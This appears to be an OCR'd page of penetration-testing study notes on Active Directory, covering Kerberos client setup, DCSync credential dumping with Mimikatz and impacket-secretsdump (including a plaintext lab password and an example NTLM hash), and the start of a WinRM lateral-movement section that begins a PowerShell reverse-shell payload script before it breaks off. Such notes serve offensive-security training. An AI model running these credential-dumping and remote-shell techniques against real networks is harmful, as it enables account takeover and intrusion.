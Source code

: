 Create a file `/etc/krb5user.conf`:
```
[libdefaults]
        default_realm = NAGOYA-INDUSTRIES.COM
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
    rdns = false
    dns_canonicalize_hostname = false
        fcc-mit-ticketflags = true

[realms]        
        NAGOYA-INDUSTRIES.COM = {
                kdc = nagoya.nagoya-industries.com
        }

[domain_realm]
        .nagoya-industries.com = NAGOYA-INDUSTRIES.COM
```

Set up `/etc/hosts`:
`127.0.0.1       localhost nagoya.nagoya-industries.com NAGOYA-INDUSTRIES.COM`

Connect to the target service. Done!

## Domain Controller Synchronization
- Obtain:
	- NTLM hash (and other credential hashes) of any domain user
### Domain Controller Synchronization from Windows
- Prerequisite:
	- Access to session of domain user with rights for DC Sync (redacted)
- Mimikatz:
	`lsadump::dcsync /user:corp\dave`
		- `corp\dave`: user for which we want to obtain creds
### Domain Controller Synchronization from Kali
- Prerequisite:
	- Creds of a domain user with rights for DC Sync (redacted)
- `impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70`
	- `dave`: target user
	- In output, NTLM hash is:
	  Using the DRSUAPI method to get NTDS.DIT secrets dave:1103:aad3b435b51404eeaad3b435b51404ee:***08d7a47a6f9f66b97b1bae4178747494***:::

# Lateral Movement

## WMI and WinRM
- Obtains:
	- Shell access to adjacent target machine as the target user
### WinRM
- Prerequisites:
	- credentials of a member of the Administrators local group (at the same time can also be a domain user) (of the target machine?)
	- PowerShell access
- Create encoded PowerShell reverse shell payload:
```python
import sys
import base64

```